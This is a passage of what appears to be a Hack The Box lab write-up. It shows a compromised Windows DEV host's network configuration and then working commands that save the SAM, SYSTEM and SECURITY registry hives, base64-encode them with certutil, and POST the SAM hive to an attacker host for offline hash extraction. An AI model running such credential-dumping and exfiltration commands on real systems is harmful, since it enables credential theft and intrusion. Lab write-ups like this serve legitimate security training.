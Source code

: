 ```

PS C:\Windows\system32> [Environment]::Is64BitOperatingSystem
True

PS C:\Windows\system32> ipconfig /all
Windows IP Configuration

   Host Name . . . . . . . . . . . . : dev
   Primary Dns Suffix  . . . . . . . : htb.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb.local

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-FC-E7
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::55c6:a0ca:e28e:cb19%4(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.3.201(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.3.2
   DHCPv6 IAID . . . . . . . . . . . : 67129430
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-26-7F-BD-91-00-50-56-B9-FC-E7
   DNS Servers . . . . . . . . . . . : 192.168.3.203
   NetBIOS over Tcpip. . . . . . . . : Disabled

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection #2
   Physical Address. . . . . . . . . : 00-50-56-B9-0B-28
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.13.38.17(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.13.38.2
   DNS Servers . . . . . . . . . . . : 8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

So now we know that this DEV box is `10.13.38.17`. I'll dump registry hives and use impacket/secretsdump.py to obtain hashes from SAM. The shell was dying like every 10 seconds (as Windows was killing fake service process that did not respond), so I could run only 5-7 commands before I had to respawn it again:

```
PS > reg.exe save hklm\sam C:\Windows\System32\spool\drivers\color\sam.hive
PS > reg.exe save hklm\system C:\Windows\System32\spool\drivers\color\system.hive
PS > reg.exe save hklm\security C:\Windows\System32\spool\drivers\color\security.hive

PS > certutil -encode C:\Windows\System32\spool\drivers\color\security.hive C:\Windows\System32\spool\drivers\color\security.hive.b64
PS > certutil -encode C:\Windows\System32\spool\drivers\color\sam.hive C:\Windows\System32\spool\drivers\color\sam.hive.b64
PS > certutil -encode C:\Windows\System32\spool\drivers\color\system.hive C:\Windows\System32\spool\drivers\color\system.hive.b64

PS > cd C:\Windows\System32\spool\drivers\color
PS > $base64str = Get-Content sam.hive.b64
PS > Invoke-RestMethod -Uri http://10.14.14.37:81/sam.hive -Method POST -Body $base64str
```